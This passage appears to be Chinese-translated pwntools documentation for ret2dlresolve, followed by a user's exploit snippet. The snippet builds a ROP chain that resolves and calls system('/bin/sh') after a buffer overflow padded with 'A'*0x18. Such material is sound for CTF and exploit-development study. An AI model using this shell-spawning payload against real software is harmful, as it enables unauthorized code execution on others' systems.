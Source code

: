 ```python
0x0048:          0x15670 [dlresolve index]
>>> p = elf.process()
>>> p.sendline(fit({64+context.bytes: raw_rop, 200: dlresolve.payload}))
>>> if dlresolve.unreliable:
...     p.poll(True) == -signal.SIGSEGV
... else:
...     p.recvline() == b'pwned\n'
True
```

类 pwnlib.rop.ret2dlresolve。Ret2dlresolvePayload（elf， symbol， args， data_addr=None)[[查看模板]](https://github.com/Gallopsled/pwntools/blob/db98e5edfb/pwnlib/rop/ret2dlresolve.py#L215-L373)创建 ret2dlresolve 有效负载

参数* **elf** （*[ELF](https://docs.pwntools.com/en/stable/elf/elf.html#pwnlib.elf.elf.ELF "pwnlib.elf.elf.ELF")*） – 要搜索的二进制文件

- **symbol** （*[str](https://docs.python.org/3.8/library/stdtypes.html#str "(in Python v3.8)")*） – 要搜索的函数
- **args** （*[list](https://docs.python.org/3.8/library/stdtypes.html#list "(in Python v3.8)")*） – 要传递给函数的参数列表

返回可以传递给的对象`Ret2dlresolvePayloadrop.ret2dlresolve`​

__init__（elf， symbol， args， data_addr=无)[[查看模板]](https://github.com/Gallopsled/pwntools/blob/db98e5edfb/pwnlib/rop/ret2dlresolve.py#L226-L248)__weakref__[[查看模板]](https://github.com/Gallopsled/pwntools/blob/db98e5edfb/pwnlib/rop/ret2dlresolve.py)对对象的弱引用列表（如果已定义）

‍

‍

‍

```python
ret2dlresolve = Ret2dlresolvePayload(elf,'system',['/bin/sh'])
rop = ROP(binary)

rop.read(0, ret2dlresolve.data_addr)
rop.ret2dlresolve(ret2dlresolve)
raw_rop = rop.chain()

print(raw_rop)

pay  = b'A' * 0x18
pay += raw_rop
pause()
s(pay)

pay = ret2dlresolve.payload
pause()
s(pay)
```

‍
